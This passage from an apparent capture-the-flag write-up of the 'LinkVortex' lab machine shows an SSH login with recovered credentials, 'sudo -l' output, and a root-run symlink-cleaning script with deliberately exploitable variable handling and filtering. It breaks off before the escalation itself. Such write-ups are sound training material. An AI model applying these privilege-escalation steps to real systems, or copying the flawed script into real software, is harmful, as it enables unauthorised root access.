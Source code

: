 We can find the credentials: `bob`:`fibber-talented-worth`. Let's attempt to ssh as `bob`.
```bash
ssh bob@linkvortex.htb
bob@linkvortex.htbs password:
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 6.5.0-27-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Last login: Tue Dec  3 11:41:50 2024 from 10.10.14.62
-bash: warning: setlocale: LC_ALL: cannot change locale (en_US.UTF-8)
bob@linkvortex:~$
```
Success! We have user.
# Root
Looking at our permissions it looks like we can run a custom script with a certain wildcard that limits our usage to a png file as a parameter.
```bash
sudo -l
Matching Defaults entries for bob on linkvortex:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty, env_keep+=CHECK_CONTENT

User bob may run the following commands on linkvortex:
    (ALL) NOPASSWD: /usr/bin/bash /opt/ghost/clean_symlink.sh *.png
```
Looking at the script there's a bit of filtering for it.
```bash
#!/bin/bash

QUAR_DIR="/var/quarantined"
if [ -z $CHECK_CONTENT ];then
  CHECK_CONTENT=false
fi

LINK=$1

if ! [[ "$LINK" =~ \.png$ ]]; then
  /usr/bin/echo "! First argument must be a png file !"
  exit 2
fi
if /usr/bin/sudo /usr/bin/test -L $LINK;then
  LINK_NAME=$(/usr/bin/basename $LINK)
  LINK_TARGET=$(/usr/bin/readlink $LINK)
  if /usr/bin/echo "$LINK_TARGET" | /usr/bin/grep -Eq '(etc|root)';then
    /usr/bin/echo "! Trying to read critical files, removing link [ $LINK ] !"
    /usr/bin/unlink $LINK
  else
    /usr/bin/echo "Link found [ $LINK ] , moving it to quarantine"
    /usr/bin/mv $LINK $QUAR_DIR/
    if $CHECK_CONTENT;then
      /usr/bin/echo "Content:"
      /usr/bin/cat $QUAR_DIR/$LINK_NAME 2>/dev/null
    fi
  fi
fi
```